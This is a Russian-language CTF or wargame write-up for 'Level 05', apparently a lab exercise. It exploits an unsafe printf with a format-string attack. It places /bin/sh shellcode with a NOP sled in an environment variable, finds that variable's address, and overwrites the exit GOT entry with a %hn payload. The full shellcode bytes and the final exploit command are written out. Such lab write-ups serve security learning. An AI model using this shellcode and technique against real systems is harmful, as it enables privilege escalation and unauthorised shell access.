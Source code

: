 ## Level 05

Мы можем использовать атаку на незащищенное использование `printf`. Для этого мы можем сохранить shellcode в переменную окружения и получить его в `prinf`, это позволит обойти ограничение в 100 символов из `fgets`. Кроме того, через нам немобходимо перезаписать указатель на функцию `exit()` таким образом, чтобы он возвращал адрес shellcode.


`(gdb) disas exit
...
0x08048513 <+207>:	call   0x8048370 <exit@plt>
(gdb) x/i 0x8048370
0x8048370 <exit@plt>:	jmp    *0x80497e0`

Надо перезаписать` 0x80497e0`

Перед shellcode добавляем NOP sled (50 bytes)

`export SHLCODE=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68'`

Создадим файл /tmp/getenv.c, чтобы получить адрес `SHLCODE`

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    printf("%p\n", getenv("SHLCODE"));
}
```

```sh
$ /tmp/getenv
0xffffdead
$ (cd /tmp; ./getenv)
0xffffdeb3
```

Итоговая команда:
```
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%57013x" + "%10$hn" + "%8514x" + "%11$hn"'; cat) | ./level05
```

